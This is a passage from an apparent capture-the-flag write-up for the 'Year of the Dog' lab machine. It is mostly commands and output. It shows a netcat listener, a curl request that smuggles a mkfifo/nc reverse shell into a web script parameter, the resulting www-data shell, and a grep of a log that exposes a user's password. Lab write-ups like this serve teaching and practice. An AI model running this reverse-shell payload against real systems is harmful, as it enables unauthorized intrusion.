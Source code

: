 `nc -nlvp 21222`

```bash
listening on [any] 21222 ...
```

`curl -G --data-urlencode 'do=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.37.37 21222 >/tmp/f' http://yearofthedog.thm/shell_script.php`

```bash
listening on [any] 21222 ...
connect to [10.2.37.37] from (UNKNOWN) [10.10.132.208] 51432
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ pwd
/var/www/html
$ 

```

> **System Enumeration & Log Analysis Phase**
> 

```bash
www-data@year-of-the-dog:/var/www/html$ ls -alt /home/dylan
total 120
drwxr-xr-x 4 dylan dylan  4096 Sep  5  2020 .
-r-------- 1 dylan dylan    38 Sep  5  2020 user.txt
-rw-rw-r-- 1 dylan dylan    53 Sep  5  2020 .gitconfig
-rw-r--r-- 1 dylan dylan 85134 Sep  5  2020 work_analysis
lrwxrwxrwx 1 root  root      9 Sep  3  2020 .mysql_history -> /dev/null
-rw-r--r-- 1 dylan dylan     0 Sep  3  2020 .sudo_as_admin_successful
lrwxrwxrwx 1 dylan dylan     9 Sep  3  2020 .bash_history -> /dev/null
drwx------ 3 dylan dylan  4096 Sep  3  2020 .gnupg
drwx------ 2 dylan dylan  4096 Sep  3  2020 .cache
-rw-r--r-- 1 dylan dylan   220 Sep  3  2020 .bash_logout
-rw-r--r-- 1 dylan dylan  3771 Sep  3  2020 .bashrc
-rw-r--r-- 1 dylan dylan   807 Sep  3  2020 .profile
drwxr-xr-x 3 root  root   4096 Sep  3  2020 ..
www-data@year-of-the-dog:/home/dylan$ grep -Ri dylan 2>/dev/null
work_analysis:Sep  5 20:52:57 staging-server sshd[39218]: Invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624
work_analysis:Sep  5 20:53:03 staging-server sshd[39218]: Failed password for invalid user dylanLabr4d0rs4L1f3 from 192.168.1.142 port 45624 ssh2
work_analysis:Sep  5 20:53:04 staging-server sshd[39218]: Connection closed by invalid user dylanLabr4d0rs4L1f3 192.168.1.142 port 45624 [preauth]
.gitconfig:     name = Dylan
.gitconfig:     email = dylan@yearofthedog.thm
```

> **SSH Connection & Internal Network Enumeration**
> 

